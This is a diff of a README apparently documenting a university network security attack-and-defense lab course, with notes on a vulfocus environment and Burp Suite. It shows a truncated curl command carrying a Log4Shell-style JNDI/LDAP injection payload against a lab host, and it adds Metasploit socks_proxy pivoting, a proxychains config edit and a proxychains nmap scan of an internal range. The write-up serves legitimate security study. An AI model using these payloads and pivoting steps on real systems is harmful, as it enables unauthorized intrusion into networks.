

Before and after one commit to Xuyan-cmd/Network-security-attack-and-defense-practice, a Markdown page: README.md, 3 parts joined by grey strips. Shown: that part at 93% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -1,10 +1,14 @@
-# 2023网安暑期攻防实验记录
+# 2023网安暑期攻防实验记录📔
 
 🚩**记录2023网安暑期攻防小学期实验**
+
+课程资料：
 
 - 课程Wiki：[2023年 - 传媒网安教学 Wiki (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-wiki/cp/2023/index.html)
 - 课程视频：[[网络安全(2021) 综合实验]](https://www.bilibili.com/video/BV1p3411x7da?p=19&vd_source=640d60cfe2696fffb930fdf01e0aba1d)
 - 视频配套课件地址:[网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#/漏洞原理详解)
+
+学习过程：[学习记录](./课程学习笔记.md)
 
 ## 一、实验环境
 
@@ -250,11 +254,13 @@ curl -X POST http://192.168.56.108:54307/hello -d 'payload="${jndi:ldap://0o9zuq
 
 在网上查询了一下报错原因：[(100条消息) Request method ‘POST‘ not supported Method Not Allowed_cy谭的博客-CSDN博客](https://blog.csdn.net/zhan107876/article/details/111595338)
 
-也在不同的虚拟机和不同电脑的虚拟机进行了实验，我认为应该是搭建的vulfocus现在的版本的问题，GET请求是可以正常进行的，curl也能成功访问到网站，但是不能用curl命令发送POST请求。
+带着这个报错我也在不同的虚拟机和不同电脑的虚拟机进行了实验，也是相同的问题。
 
-以下是使用Burpsuite手动发送POST请求👇
+我认为应该是搭建的vulfocus现在的版本和docker或者虚拟机的兼容问题，也可能是网络问题，试了一下GET请求是可以正常进行的，返回ok，curl也能成功访问到网站，但是不能用curl命令发送POST请求。
 
 ###### Burpsuite
+
+以下是使用Burpsuite手动发送POST请求过程👇
 
 使用Burpsuite进行抓包：
 
@@ -796,6 +802,17 @@ set threads 10
 
 ![image-20230726203925251](IMG/services2.png)
 
+搜索 `socks_proxy`，使用该代理模块，该代理模块就能在攻击者主机上开启一个利用当前立足点会话建立起的一个跳板
+
+```shell
+# setup socks5 proxy
+$ search socks_proxy
+$ use auxiliary/server/socks_proxy
+$ run -j
+# 查看后台任务
+$ jobs -l
+```
+
 新开一个 ssh 会话窗口 ：检查 1080 端口服务开放情况
 
 ```shell
@@ -803,6 +820,14 @@ sudo lsof -i tcp:1080 -l -n -P
 ```
 
 ![image-20230726204324412](IMG/检查 1080 端口服务开放情况 .png)
+
+- 编辑 `/etc/proxychains4.conf`，进行 tcp 连接扫描 `7001` 端口；虽然扫描输出的结果是 `filtered`，但其实是处于开放状态的
+
+  ```shell
+  $ sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf
+
+  $ proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.170.84.2-5
+  ```
 
 回到 metasploit 会话窗口:重新进入 shell 会话
 
````
Also changed, not shown: other parts of README.md (+8 -8 lines), 课程学习笔记.md (+93 -12 lines).
